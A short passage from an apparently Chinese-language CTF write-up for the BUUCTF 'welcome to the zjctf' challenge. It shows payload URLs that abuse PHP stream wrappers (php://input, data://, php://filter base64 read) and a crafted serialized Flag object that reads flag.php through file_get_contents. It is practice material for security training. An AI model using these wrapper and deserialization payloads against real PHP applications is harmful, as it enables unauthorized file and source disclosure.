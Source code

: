 用php://input伪协议在以POST形式传入“ welcome to the zjctf " 也可以用data伪协议传参

```
/?text=php://input&file=php://filter/read=convert.base64-encode/resource=useless.php 
```

2.得到base64编码的页面，解密如下：

```
<?php  

class Flag{  
    public $file;    
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file);    
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?> 
```

3.反序列化：
![在这里插入图片描述](img/c3f1985ad80e969d22238be8feb85704.png)
4.重新构造payload

```
?text=data:text/plain,welcome to the zjctf&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";} 
```

5.最后查看源码得到flag

### BUUCTF [网鼎杯 2020 青龙组]AreUSerialz
